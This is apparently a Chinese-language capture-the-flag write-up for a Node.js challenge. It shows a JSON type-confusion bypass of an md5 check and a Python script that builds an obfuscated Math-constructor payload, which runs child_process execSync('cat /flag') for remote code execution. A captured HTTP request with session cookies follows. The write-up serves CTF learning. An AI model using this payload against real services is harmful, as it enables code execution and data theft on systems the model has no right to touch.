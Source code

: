 就是可以用json来绕过，

弄一个这个

```
"first":{"length":"1"},"second":{"length":"1"}
```

就可以绕过了，first和second现在都是object

而first.length===second.length, 而且

first!==second

最关键是

` md5(first+keys[0]) === md5(second+keys[0])`

这个代码，`first`是一个对象，和`keys[0]`拼接的时候就转换成String

而first的字符串和second的字符串相等，全部满足了

然后就是用Math来RCE了，利用函数嵌套的样子来

传入 Math+1 这个是字符形式

这个就是一个题目改编的了

脚本：

```
import re
encode = lambda code: list(map(ord,code))
decode = lambda code: "".join(map(chr,code))
a=f"""
(m0=>(
		m0=m0.constructor,
		m0.x=m0.constructor(
			m0.fromCharCode({encode("return process.mainModule.require('child_process').execSync('cat /flag')")})
		)()
	))(Math+1)
"""



a=re.sub(r"[\s\[\]]", "", a).replace("m0","Math")

print(a)
```

```
POST / HTTP/1.1
Host: ha1cyon-ctf.fun:30300
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ha1cyon-ctf.fun:30300/
Content-Type: application/json
Content-Length: 402
Connection: close
Cookie: session=acc48197-782d-41d9-a631-2a3e81837e9a.s_KiQgbftrE7e0hu6hLPXKF0W3I; PHPSESSID=4feut4nk0o5o37jjsg8173opk3; PHPSESSION=eyJhZG1pbiI6MCwicmVzdWx0cyI6W119; PHPSESSION.sig=Af7dna727rpLpx--lZVqoWD5BKU
Upgrade-Insecure-Requests: 1

```